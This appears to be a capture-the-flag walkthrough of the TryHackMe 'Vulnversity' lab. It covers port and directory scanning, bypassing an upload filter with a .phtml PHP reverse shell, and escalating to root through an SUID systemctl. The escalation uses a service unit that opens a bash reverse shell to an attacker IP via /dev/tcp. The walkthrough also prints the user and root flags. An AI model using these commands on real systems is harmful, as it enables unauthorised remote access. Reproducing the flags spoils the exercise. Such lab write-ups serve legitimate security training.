

# Module: Vulnversity

Author: Jackson Warren  
Date: August 30, 2022  

## Reconnaissance

### Nmap Scan
`$ nmap -sV -oN scans/nmap-10.10.184.78.out 10.10.184.78`

Scan the box, how many ports are open?  
Answer: **6**

What version of the squid proxy is running on the machine?  
Answer: **3.5.12**

How many ports will nmap scan if the flag -p-400 was used?  
Answer: **400**

Using the nmap flag -n what will it not resolve?  
Answer: **DNS** (-n Never do DNS resolution)  

What is the most likely operating system this machine is running?  
Answer: **Ubuntu**

What port is the web server running on?  
Answer: **3333** Apache httpd 2.4.18 ((Ubuntu))

## Locating Directories Using GoBuster
Lets first start of by scanning the website to find any hidden directories. To do this, we're going to use GoBuster.  

GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.  

Download GoBuster here, or if you're on Kali Linux 2020.1+ run `sudo apt-get install gobuster`  

To get started, you will need a wordlist for GoBuster (which will be used to quickly go through the wordlist to identify if there is a public directory available. If you are using Kali Linux you can find many wordlists under /usr/share/wordlists.  

Now lets run GoBuster with a wordlist:  
`gobuster dir -u http://<ip>:3333 -w <word list location>`

### Running my GoBuster
`gobuster dir -u http://10.10.184.78:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o scans/goBuster-10.10.184.78:3333.out`

```
$ cat scans/goBuster-10.10.184.78:3333.out 
/images               (Status: 301) [Size: 320] [--> http://10.10.184.78:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.184.78:3333/css/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.184.78:3333/js/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.184.78:3333/fonts/]
/internal             (Status: 301) [Size: 322] [--> http://10.10.184.78:3333/internal/]
```

What is the directory that has an upload form page?  
Answer: **/internal/**

## Compromise The Webserver
Now you have found a form to upload files, we can leverage this to upload and execute our payload that will lead to compromising the web server.  

What common file type, which you'd want to upload to exploit the server, is blocked? **Try a couple to find out.** 
Answer: **.php**

## Using Burp Suite Intruder
We're going to use Intruder (used for automating customised attacks).  
  
To begin, make a wordlist with the following extensions in:  
  

Now make sure BurpSuite is configured to intercept all your browser traffic. Upload a file, once this request is captured, send it to the Intruder. Click on "Payloads" and select the "Sniper" attack type.  

Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so:
  

Intruder didn't work (all results responded with 200) so we're just going to guess that it's .phtml  
Answer: **.phtml**

Now we know what extension we can use for our payload we can progress.

We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!

Download the following reverse PHP shell here.

To gain remote access to this machine, follow these steps:

    Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).

    Rename this file to php-reverse-shell.phtml

    We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 1234`

    Upload your shell and navigate to **http://<ip>:3333/internal/uploads/php-reverse-shell.phtml** - This will execute your payload

    You should see a connection on your netcat session


What is the name of the user who manages the webserver?
`$ cat /etc/passwd` - tried a few and found bill  
Answer: **bill**

### What is the user flag?
```
cd /home/bill	
$ ls
user.txt
$ cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```
Answer: **8bd7992fbe8a6ad22a63361004cfcedb** :)

## Privilege Escalation

In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

Hint:  
`$ find / -user root -perm -4000 -exec ls -ldb {} \;`  
Better:  
`$ find / -user root -perm -4000 -print 2>/dev/null`

```
$ find / -user root -perm -4000 -print 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
It is unusual for /bin/systemctl to be an SUID file so let's try that.  
Answer: **/bin/systemctl**

It's challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?

Become root and get the last flag (/root/root.txt)

We create a root.service file and fill in this:  
```
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.6.46.221/4444 0>&1'

[Install]
WantedBy=multi-user.target
```

### Start python server to grab root.service
Start a Python http server on port 80, in the same directory as the root.service file, then run:

```
$ wget 10.6.46.221/root.service
--2022-08-30 18:39:43--  http://10.6.46.221/root.service
Connecting to 10.6.46.221:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 162 [application/octet-stream]
Saving to: 'root.service'

     0K                                                       100% 34.4M=0s

2022-08-30 18:39:43 (34.4 MB/s) - 'root.service' saved [162/162]
```

### Start nc listener on port 4444  
`$ nc -nvlp 4444`  

### Enable root.service with systemctl  
`$ systemctl enable /tmp/root.service`
```
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /tmp/root.service.
Created symlink from /etc/systemd/system/root.service to /tmp/root.service.
```

### Start root service with systemctl  
`$ systemctl start root`

## Find Flag!  
```
cd /root  
ls  
root.txt  
cat root.txt  
a58ff8579f0a9270368d33a9966c7fd5 :)
```
## Flag
**a58ff8579f0a9270368d33a9966c7fd5**


